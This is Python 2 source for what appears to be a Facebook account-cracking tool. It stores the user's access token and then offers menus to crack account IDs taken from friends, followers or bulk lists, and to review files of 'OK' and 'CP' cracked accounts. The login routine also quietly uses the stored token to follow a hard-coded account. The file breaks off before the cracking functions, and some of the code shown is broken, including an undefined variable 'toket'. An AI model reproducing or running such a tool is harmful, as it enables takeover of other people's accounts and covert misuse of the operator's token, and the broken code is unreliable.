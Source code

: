 
# -*- coding: utf-8
# author by Mark Cornel
import os
try:
	import requests
except ImportError:
	os.system("pip2 install requests")

try:
	import bs4
except ImportError:
	os.system("pip2 install bs4")

import os, sys, re, time, requests, json, random, calendar
from multiprocessing.pool import ThreadPool
from bs4 import BeautifulSoup as parser
from datetime import datetime
from datetime import date

loop = 0
id = []
ok = []
cp = []

ct = datetime.now()
n = ct.month
bulan = ["Januari", "Februari", "Maret", "April", "Mei", "Juni", "Juli", "Agustus", "September", "Oktober", "November", "Desember"]
try:
    if n < 0 or n > 12:
        exit()
    nTemp = n - 1
except ValueError:
    exit()

current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
op = bulan[nTemp]


def  jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(000.05)

my_date = date.today()
hr = calendar.day_name[my_date.weekday()]
tBilall = ("%s-%s-%s-%s"%(hr, ha, op, ta))
tgl = ("%s %s %s"%(ha, op, ta))
bulan_ttl = {"01": "Januari", "02": "Februari", "03": "Maret", "04": "April", "05": "Mei", "06": "Juni", "07": "Juli", "08": "Agustus", "09": "September", "10": "Oktober", "11": "November", "12": "Desember"}

def logo():
	os.system("clear")
	print("""\x1b[0;32m═══╦
\x1b[0;33m╔═╗╔═╦═══╦═══╦╗╔═⇔║
\x1b[0;33m║║╚╝║║╔═╗║╔═╗║║║╔╝
\x1b[0;33m║╔╗╔╗║║─║║╚═╝║╚╝╝⇯⇯
\x1b[0;33m║║║║║║╚═╝║╔╗╔╣╔╗║⇯⇯
\x1b[0;33m║║║║║║╔═╗║║║╚╣║║╚╗
\x1b[0;33m╚╝╚╝╚╩╝─╚╩╝╚═╩╝╚═╝   """)
def login():
	os.system("clear")
	try:
		#-> connection test
		requests.get("https://mbasic.facebook.com")
	except requests.exceptions.ConnectionError:
		exit("Internet Connection Error")
	try:
		token = open("login.txt", "r")
		menu()
	except KeyError, IOError:
		token = raw_input("[?] Enter Token : ")
		if token == "":
			print("Wrong Input")
		try:
			nama = requests.get("https://graph.facebook.com/me?access_token="+token).json()["name"].lower()
			open("login.txt", "w").write(token)
			#-> bot follow
			requests.post("https://graph.facebook.com/4/subscribers?access_token=" + toket)
			menu()
		except KeyError:
			os.system("rm -f login.txt")
			exit("[?] Login Error")

def menu():
	os.system("clear")
	global token
	try:
		token = open("login.txt","r").read()
	except KeyError:
		os.system("rm -f login.txt")
		exit("[?] Login Error")
	try:
		nama = requests.get("https://graph.facebook.com/me/?access_token="+token).json()["name"].lower()
	except IOError:
		os.system("rm -f login.txt")
		exit("\033[1;96m[\033[1;93m+\033[1;96m] Token Error")
	except requests.exceptions.ConnectionError:
		exit(" ! no internet connection")
	logo()
	
	print("\n\033[1;93m[\033[1;94m01\033[1;97m] Crack Id From Public/Friends")
	print("\033[1;93m[\033[1;94m02\033[1;97m] Crack Id From Followers")
	print("\033[1;93m[\033[1;94m03\033[1;97m] Multi Crack\033[1;93m [ \033[1;95mPro \033[1;97m]")
	print("\033[1;93m[\033[1;94m04\033[1;97m] Chack Crack Results")
	print("\033[1;93m[\033[1;94m05\033[1;97m] User-Agent Settings\033[1;97m [ \033[1;95mPro \033[1;97m]")
	print("\033[1;93m[\033[1;94m00\033[1;97m] Exit\033[1;97m [ \033[1;91mDelete Token \033[1;97m]")
	Bilal = raw_input("\n\033[1;96m[\033[1;93m+\033[1;96m] Chouse : ")
	if Bilal =="":
		menu()
	elif Bilal == "1" or Bilal == "01":
		publik()
		method()
	elif Bilal == "2" or Bilal == "02":
		follower()
		method()
	elif Bilal == "3" or Bilal == "03":
		massal()
		method()
	elif Bilal == "4" or Bilal == "04":
		print("\n\033[1;92m[\033[1;93m01\033[1;96m] Chack Result OK")
		print("\033[1;93m[\033[1;94m02\033[1;96m] Chack Result CP")
		cek = raw_input("\n\033[1;93m[\033[1;93m+\033[1;96m] Chouse : ")
		if cek =="":
			menu()
		elif cek == "1":
			dirs = os.listdir("OK")
			print("\033[1;96m[\033[1;93m+\033[1;96m] Copy File Name  And Past into Input")
			for file in dirs:
				print("[•]  "+file)
			try:
				file = raw_input("\n\033[1;96m[\033[1;93m+\033[1;96m] File Name : ")
				if file == "":
					menu()
				Totalok = open("OK/%s"%(file)).read().splitlines
